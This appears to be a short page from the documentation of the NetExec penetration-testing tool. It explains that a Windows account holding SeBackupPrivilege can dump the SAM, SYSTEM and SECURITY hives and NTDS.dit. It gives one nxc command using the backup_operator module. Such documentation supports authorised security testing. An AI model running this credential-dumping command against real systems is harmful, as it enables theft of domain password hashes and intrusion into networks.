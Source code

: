 # 🆕 Dump with BackupOperator Priv

{% hint style="success" %}
You don't need to local admin privilege on the remote target if you are in SeBackupPrivilege
{% endhint %}

If the controlled user has the SeBackupPrivilege, it can dump SAM, SYSTEM, SECURITY and therefore the NTDS.dit on the target system. No admin privs needed!

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M backup_operator
```

![image](https://github.com/user-attachments/assets/88d5aa2d-4369-4dac-815f-1dbe80b12ad6)
